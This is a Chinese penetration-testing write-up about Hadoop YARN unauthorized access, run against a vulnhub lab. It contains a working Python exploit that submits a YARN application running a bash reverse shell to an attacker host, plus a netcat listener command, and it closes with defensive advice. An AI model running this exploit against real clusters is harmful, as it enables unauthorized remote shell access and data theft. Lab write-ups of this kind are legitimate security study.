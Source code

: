 ```yaml
---
title: Hadoop未授权访问漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- Hadoop
- 未授权访问
abbrlink: 59457
date: 2020-05-26 10:14:47
keywords:
summary:
img:
password:
---
```



#### 漏洞简介以及危害
Hadoop是一个由Apache基金会所开发的分布式系统基础架构,由于服务器器直接在开放了了
Hadoop 机器器 HDFS 的 50070 web 端口及部分默认服务口口,黑客可以通过命令行操作多个目录下
的数据,如进行删除,下载,目录浏览甚至命令行行等操作,产生极大的危害。



#### 环境
vulnhub



#### 测试
启动环境
```bash
docker-compose up -d
```

访问
```
http://192.168.0.100:8088/cluster
```
![](http://image.geoer.cn/Hadoop.png)


**通过REST API命令执行**
利用过程：
在本地监听端口 > 创建Application > 调用Submit Application API提交
1.本机监听
```bash
nc -lvvp 8888
```

2.直接本机执行EXP：`python exp.py`
```python
import requests
target = 'http://192.168.0.100:8088/'
lhost = '192.168.0.105' # put your local host ip here, and listen at port 8888
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
'application-id': app_id,
'application-name': 'get-shell','am-container-spec': {
'commands': {
'command': '/bin/bash -i >& /dev/tcp/%s/8888 0>&1' % lhost,
},
},
'application-type': 'YARN',
}
requests.post(url, json=data)

```

3.反弹shell成功
![](http://image.geoer.cn/Hadoop_shell.png)


#### 防御手段
- 如无必要, 关闭 Hadoop Web 管理⻚面。
- 开启身份验证 ,防止未经授权用户访问。
- 设置“安全组”访问控制策略,将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访包括 50070 以及 WebUI 等相关端口。











